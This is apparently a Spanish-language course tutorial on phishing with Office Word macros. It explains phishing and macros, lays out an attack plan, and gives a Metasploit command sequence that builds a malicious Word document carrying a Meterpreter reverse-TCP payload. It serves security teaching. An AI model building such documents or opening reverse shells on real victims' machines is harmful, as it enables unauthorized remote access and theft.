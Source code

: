 # Objetivos de aprendizaje

- Entender como funciona un ataque de phising
- Descubrir como los macros del documentos puedes usarse y abusar
- Aprender como realizar un ataque de phishing con una macro

# Phishing

Como todos sabemos en el término de seguridad los humanos somos el eslabón más débil, ¿Qué es más fácil buscar una vulnerabilidad en un sistema detras de un firewall o convender a alguien de abrir un documento "importante"?

Phishing es como la palabra pescar, sin embargo, el atacante no se come luego el pesado jiji, bueno, Phishing funciona mandando un "bait" normalmente a un grupo de usuarios. El atacante crea mensajes dependiendo de la urgencia, del target para que tomen medidas inmediatas, incrementando los chances. El proposito realmente es robar información personal o instalar un malware, normalmente se convence a la víctima a utilizar un formulario, abrir un archivo  o clickar en un link

# Macros

Una macro se refiere una instrucción programada diseñada para automatizar tareas repetitivas. Office, te ayudan a crear macros en el documento. En muchos casos, estos macros son características que pueden quitar mucho tiempo. Sin embargo en ciber seguridad estos programas pueden llevar dentro propositos maliciosos.

Para añadir una macro dentro de un documento de Word, nos iremos a menu de ver seleccionaremos Macros y se nos abrira, especificaremos el archivo en cuestión y crearemos

![image](https://github.com/user-attachments/assets/427c5c19-bef5-4730-a38c-fecb78620d05)

Vamos a explorar como un atacante crea un documento y lo utiliza para ganar acecso a un sistema

# Plan de ataque

En este plan necesitamos crear un documento malicioso. Al abrir el documento, la macro se ejecute el payload conectado en la máquina y no se un control remoto. Posteirormente, necesitaremos estar escuchando las conexiones de dicha maquina antes de mandar dicho documento. Para ejecutar el macro utilizaremos una rev shell, utilizada para ejecutar comandos remotamente.

- Crear un documento con la redirección maliciosa
- Estar a la escucha de conexiónes

# Crear un documento malicioso

El primer paso es crear dicho documento en m icaso utilizare metasploit

```
msfconsole

set payload windows/meterpreter/reverse_tcp

use exploit/multi/fileformat/office_word_macro

set LHOST (nuestra ip)

set LPORT (puero en cuestión)

exploit

exit
```


